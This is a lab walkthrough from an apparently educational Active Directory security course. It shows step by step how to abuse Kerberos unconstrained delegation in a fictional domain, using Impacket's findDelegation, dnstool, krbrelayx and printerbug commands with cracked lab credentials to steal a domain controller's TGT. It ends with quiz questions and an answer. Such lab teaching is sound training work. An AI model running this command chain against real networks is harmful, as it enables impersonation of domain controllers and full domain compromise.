

repository: netexperiments/wadsecurity · page: labs/multi-domain-attacks/unconstrained-delegation-abuse/index.html · generator: mkdocs

#Unconstrained delegation abuse

This attack is performed by using a compromised service account that is configured to perform unconstrained delegation. Once an attacker has compromised any user account, it can query the domain's database using LDAP, in order to check which accounts are configured for delegation. This can be done by using the 'findDelegation.py' script from Impacket. You may use Jesse Pinkman's credentials, cracked in the AS-REP roasting attack.  

```
findDelegation.py NORTH.ALTAIR.LOCAL/jesse.pinkman:Wang0Tang0! -target-domain north.altair.local
```

The output from the script tells the attacker which accounts are configured for which type of delegation. Namely, the attacker notes that the jesse.pinkman account is configured for unconstrained delegation. This means that through the use of this account, the attacker can retrieve TGTs from users that authenticate to it.

Now, the objective in this exercise is to steal the DC account's TGT. The DC account can be coerced into authenticating to the attacker's machine through the use of the Printer Bug. If the DC authenticates to the attacker machine, the attacker can then retrieve its TGT, and impersonate the DC to any service on the domain.

To properly trigger the Printer Bug and coerce the DC to authenticate to the attacker using Kerberos, there must be a DNS record that resolves the jesse.pinkman.north.altair.local hostname to the attacker's IP address. This is required since if IP addresses are used to trigger authentication, Windows falls back to NTLM. To create this record, the 'dnstool.py' script from the krbrelayx toolkit can be used, since authenticated users can create  DNS records. In the 'krbrelayx' directory, run:

```
python3 dnstool.py -u north\\jesse.pinkman -p 'Wang0Tang0!' captain.north.altair.local --zone north.altair.local -r jesse.pinkman.north.altair.local -a add -t A -d 192.168.122.2
```

At this point, there's a DNS record resolving Jesse's hostname to the attacker's IP address. Upon DC authentication to Jesse, the DC will query DNS and be tricked into thinking that the attacker's IP is actually Jesse's IP.

At this point, the printer bug can be executed, which will trigger Kerberos authentication from the DC to the attacker. Since the DC assesses that Jesse is configured for unconstrained delegation, it will include its own TGT within the AP-REQ sent to the attacker's machine. The attacker will then use Jesse's password to decrypt the AP-REQ section that includes a session key. This session key is necessary to use the TGT, and will also be sent to Jesse, as per unconstrained delegation behavior. Once this session key is obtained, the attacker can then use the DC's TGT arbitrarily.

To do so, in one terminal, the 'krbrelayx.py' script must be running. Once that script is running and waiting for the DC to authenticate to the attacker, the attacker will execute the printer bug in a second terminal, using the 'printerbug.py' script. The Printer Bug will coerce the DC to authenticate to the attacker's machine.

```
#In a first terminal, run the krbrelayx.py script. To be able to do so, you must stop the DNS service running on your machine
#First, stop DNS service
systemctl stop systemd-resolved 
#Now, run the krbrelayx script
sudo -E python3 krbrelayx.py -s jesse.pinkman -p Wang0Tang0!
#Now in a second terminal, run the printer bug in order to trick the DC into authenticating to the attacker using Kerberos
python3 printerbug.py NORTH/jesse.pinkman:'Wang0Tang0!'@captain.north.altair.local jesse.pinkman.north.altair.local
#At this point you can restart the DNS service
systemctl start systemd-resolved 
```

At this point, the attacker has successfully retrieved the CAPTAIN DCs own TGT, which can be used to impersonate the DC to any service in the domain.



!!! question
    Why is the service's (Jesse's) password required to retrieve the DC's TGT? 

??? success "Answer"
    The service password is required since in Kerberos Unconstrained Delegation, the DC's TGT is sent to the attacker, along with a session key. This session key is encrypted using the service account's (Jesse) password. Using Jesse's password, the attacker can retrieve this session key and use it in new TGS exchanges, leveraging the own DC's TGT, and therefore impersonating the DC. 

!!! question
    Would the DC send its TGT to the attacker if constrained delegation was used, instead of unconstrained delegation?
